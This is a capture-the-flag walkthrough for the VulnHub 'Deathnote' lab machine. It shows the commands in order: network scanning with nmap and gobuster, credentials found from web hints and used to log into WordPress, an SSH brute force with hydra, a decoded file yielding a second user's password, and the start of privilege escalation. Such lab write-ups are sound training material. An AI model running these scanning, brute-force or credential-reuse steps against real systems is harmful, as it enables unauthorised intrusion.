
# DEATHNOTE
#### Download the machine from vulnhub or go for the [link](https://download.vulnhub.com/deathnote/Deathnote.ova).
![deathnote vulnhub](https://user-images.githubusercontent.com/112984045/201843771-c3f68b39-9b6e-4df4-9eef-0d90fa1c8445.png)<br>

* #### This is a direct walk-through to the flag. Hopping that you have given your best before referring to this write-up
* #### Do follow this page through out the line to void confusion.

### `setup the machine to vmware or virtualbox and run the machine.`
### `It is recommended to keep both attack and deathnote machines on either briged or NAT network`
### ` After a successful setup go for the commands :`

## ENUMERATION :

```bash
netdiscover -i < interface >
```
`Example command : netdiscover -i eth0`
![deathnote netdiscover](https://user-images.githubusercontent.com/112984045/201920948-904f4e4d-0ac8-42ac-bf79-49646b91c2f3.png)<br>

* For ENUMERATION we use nmap tool which come by default in kali linux.
 <br>command :
 
```bash
nmap -sC -sV -T4 < IP >
```
![deathnote nmap](https://user-images.githubusercontent.com/112984045/201921950-90d2d0a7-9879-4919-b4eb-397ba12743df.png)<br>
 ~ we can add -v argument for more verbose output.<br>
 
  * I usually perform one more scan by using my personal tool : [port-scanner](https://github.com/shybu9/port-Scanner)
![deathnote portscanner](https://user-images.githubusercontent.com/112984045/201923393-7c7f0019-07c4-40cb-8f00-3ad50954bacd.png)<br>
 ~ I prefer this tool because of its speed as you can see it just took 40 seconds for scanning 65535 ports.<br>Even still some improvements are to be done
 
 ### ANALYSING BOTH SCANS :
 * number of OPEN PORTS : 2
 * PORT NUMBERS : 22,80
 * OPERATING SYSTEM : Linux
 * service running on PORT 22 : ssh
 * service running on PORT 80 : http
 
 * As the port 80 is open lets have a look on web pages using IP
 ```bash
 http://<IP>
 ```
 ![deathnote iponweb](https://user-images.githubusercontent.com/112984045/201925983-a0bcb8d9-91a8-4bf9-bcf1-67a0c31efb03.png)

 
 <br>
 
 * As the web-request is redirecting to deathnote.vuln.. go for changing the host
 ```bash
 nano /etc/hosts
 ```
 * Add the ip and web domain<br>
 ![deathonte etchosts](https://user-images.githubusercontent.com/112984045/202195455-15b4f27b-efae-4331-8bf8-40886fcb5942.png)
<br>

```bash
 gobuster dir -u < IP >/  --no-error -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```
![deathnote gobuster](https://user-images.githubusercontent.com/112984045/202196928-a5a374e9-b12c-4146-bad0-a2b69c46696b.png)
```bash
gobuster dir -u < IP >/  --no-error -w /usr/share/wordlists/dirb/common.txt  -t 50
```
![deathnote gobuster common](https://user-images.githubusercontent.com/112984045/202197447-008f5b28-3b2e-41e4-85f3-cbd5325101ab.png)
<br>

* Web-request
```bash
http://< IP >/robots.txt
```
![deathnote robots](https://user-images.githubusercontent.com/112984045/202197893-4fdb3263-af51-4c5e-bb03-988b2e803244.png)<br>

`follow the lead`
```bash
http://< IP >/important.jpg
```
![deathnote importweb](https://user-images.githubusercontent.com/112984045/202199038-4d4e031e-c11d-4990-96bf-e84036559c65.png)
```bash
wget http://< IP >/important.jpg
```
![deathnote important crack](https://user-images.githubusercontent.com/112984045/202199212-ec1e495f-0b6a-46b8-84d2-0cd4a5ddc942.png)<br>
```bash
http://deathnote.vuln/wordpress/index.php/hint/
```
![deathnote hint](https://user-images.githubusercontent.com/112984045/202249653-4f9c4014-c6f3-4337-b4e1-6c547044314f.png)<br>
![deathnote Lcomment](https://user-images.githubusercontent.com/112984045/202250763-74359e02-f4e5-482c-a7d3-f609176742d5.png)<br>

` I think i have found something else`
* PASSWORD :  iamjustic3
```bash
http://< IP >/wordpress/wp-admin
```
![deathnote adminpage](https://user-images.githubusercontent.com/112984045/202252487-37685b3e-fd85-4ef2-b1dd-e6df4387408e.png)<br>


`It was a simple guess...`<br>
* USERNAME : Kira<br>
* PASSWORD : iamjustic3
<br>


![deathnote adminmedia](https://user-images.githubusercontent.com/112984045/202252864-f213d504-e0fb-4fba-b4af-c502a9ce51fb.png)<br>

 ![deathnote webnote](https://user-images.githubusercontent.com/112984045/202262434-46e427b8-b93f-4802-98a8-334af3e859f1.png)
 <br>
 
 ```bash
 wget < copied link >
 ```
 ![deathnote notes](https://user-images.githubusercontent.com/112984045/202262450-5038af71-b0ca-412a-a255-f30b6de2871f.png)
<br>

```bash
hydra -l l -P notes.txt ssh://< IP >
```
![deathnote l](https://user-images.githubusercontent.com/112984045/202267251-08e7fc8a-d649-4b2e-bf4b-054135373a6e.png)

```bash
ssh l@< IP >
```
![deathnote ssh l](https://user-images.githubusercontent.com/112984045/202267838-6f78065c-e3b8-486c-a7dc-8975eff5c27e.png)
<br>

```bash
cat user.txt
```
![deathnote cat user](https://user-images.githubusercontent.com/112984045/202270033-a97517c9-fd6e-46e6-9ff8-3222ed3dc5a4.png)<br>

* Use the [link](https://www.tutorialspoint.com/execute_brainfk_online.php) to decode brainfuck 
![deathnote brainfuck](https://user-images.githubusercontent.com/112984045/202270063-23ed6650-9776-4fd7-985d-c946107280fe.png)

```bash
cd /opt/L/fake-notebook-rule
```
```bash
cat case.wav
```
![deathnote shell opt](https://user-images.githubusercontent.com/112984045/202354580-fb7ba709-29d3-4ba1-892d-a851f2d4e960.png)
![deathnote cyberchief](https://user-images.githubusercontent.com/112984045/202354738-14994187-1b59-44da-961f-f68431d98c91.png)

<br>

* Username : kira<br>
* Password : kiraisevil<br>

```bash
su kira
```
![deathnote su-kira](https://user-images.githubusercontent.com/112984045/202356862-d507d37a-84b9-4633-b0e0-0c77cf983cc3.png)

## PRIVILEGE ESCALATION

```bash
sudo -l
```
![deathnote root](https://user-images.githubusercontent.com/112984045/202358116-5a24d4f5-835b-4e78-ae90-dd0809dd1611.png)


<br>

### FOR ANY DOUBTS OR SUGGESTIONS DO WRITE TO shy.bu9@gmail.com
 
